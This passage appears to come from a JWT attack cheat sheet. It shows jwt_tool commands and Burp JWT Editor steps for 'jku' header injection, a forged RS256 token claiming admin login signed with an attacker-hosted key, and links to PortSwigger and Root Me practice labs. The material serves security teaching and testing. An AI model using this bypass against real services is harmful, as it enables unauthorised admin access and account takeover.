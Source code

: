 **Exploit**:

* Using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)
    ```ps1
    python3 jwt_tool.py JWT_HERE -X s
    python3 jwt_tool.py JWT_HERE -X s -ju http://example.com/jwks.json
    ```
* Using [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. Generate a new RSA key and host it
    2. Edit JWT's data
    3. Replace the `kid` header with the one from your JWKS
    4. Add a `jku` header and sign the JWT (`Don't modify header` option should be checked)

**Deconstructed**:

```json
{"typ":"JWT","alg":"RS256", "jku":"https://example.com/jwks.json", "kid":"id_of_jwks"}.
{"login":"admin"}.
[Signed with new Private key; Public key exported]
```


## Labs 

* [PortSwigger - JWT authentication bypass via unverified signature](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)
* [PortSwigger - JWT authentication bypass via flawed signature verification](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)
* [PortSwigger - JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)
* [PortSwigger - JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)
* [PortSwigger - JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)
* [PortSwigger - JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)
* [Root Me - JWT - Introduction](https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Introduction)
* [Root Me - JWT - Revoked token](https://www.root-me.org/en/Challenges/Web-Server/JWT-Revoked-token)
* [Root Me - JWT - Weak secret](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)
* [Root Me - JWT - Unsecure File Signature](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)
* [Root Me - JWT - Public key](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
* [Root Me - JWT - Header Injection](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
* [Root Me - JWT - Unsecure Key Handling](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)


## References
